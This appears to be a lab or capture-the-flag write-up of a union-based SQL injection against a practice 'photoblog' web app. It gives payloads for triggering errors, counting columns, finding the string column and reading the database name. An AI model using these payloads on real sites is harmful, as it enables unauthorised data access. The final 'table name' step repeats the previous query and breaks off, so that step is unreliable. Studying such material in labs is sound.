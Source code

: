 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5ddbab7b-1bb5-4914-b37f-71c5129453cd)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b60418f-1992-403a-bce9-27b56c4855a7)

Click on "pool", you should get this url

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28ae9253-baa2-43cd-a9c2-ee6c777bc70c)

Checking if it is vulnerable to SQLi, just add ```'``` at the back of ```3```. This should trigger a SQL error

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0390bd99-c07c-4037-a3c6-ac89a1ee19ab)

We'll be exploiting this from the webpage

Lets check for the number of columns available in the database. We can use the query
```sql
order by 1 -- 
order by 2 --
order by 3 --
```
Using these queries

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57db1a3f-b189-4daa-8fad-c7f4557ddf29)

This means we don't have a 5th column in the database, which means we have just 4 columns.

Lets check for the column that is compatible with string data, that is the vulnerable column. We can use the query
```sql
AND 0 UNION SELECT 1,2,3,4-- -
```
This query should return the vulnerable column

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28f96a6b-74b3-4908-b94a-46cb40721d01)

We can see that column 2 is the vulnerable one. 

Checking for the name of the database, we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a2d3138-b00a-4419-a5df-908f13d485f7)

We got the name of the database to be ```photoblog```

Checking for the "tablename", we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

































